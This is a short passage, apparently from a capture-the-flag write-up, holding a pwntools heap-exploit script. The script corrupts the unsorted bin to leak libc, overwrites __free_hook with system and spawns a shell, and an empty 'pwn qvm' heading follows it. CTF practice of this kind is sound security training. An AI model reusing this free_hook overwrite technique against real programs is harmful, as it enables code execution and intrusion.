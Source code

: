```py
# modify the header of chunk from 0x21 to 0x31, read more data
add_Decode(base64.b64encode(p64(0) + p64(0x31) + p32(0))) # 4
# break the unsorted bin head, and get the data
del_Decode(4)
add_Decode(base64.b64encode(p64(0xffffffffffffffff) * 4 + b'\xff')) # 4

leak_addr     = u64_(show_Decode(4)[-6:])
libc_base     = leak_addr - 0x1ecbff
libc.address  = libc_base

modify_bin_head(libc.symbols['__free_hook'])
add_Decode(base64.b64encode(p64(libc.symbols['system']) + p64(0) + p32(0)) )
del_Decode(1)

p.interactive()
```

# [](#header-3)pwn qvm





(完)
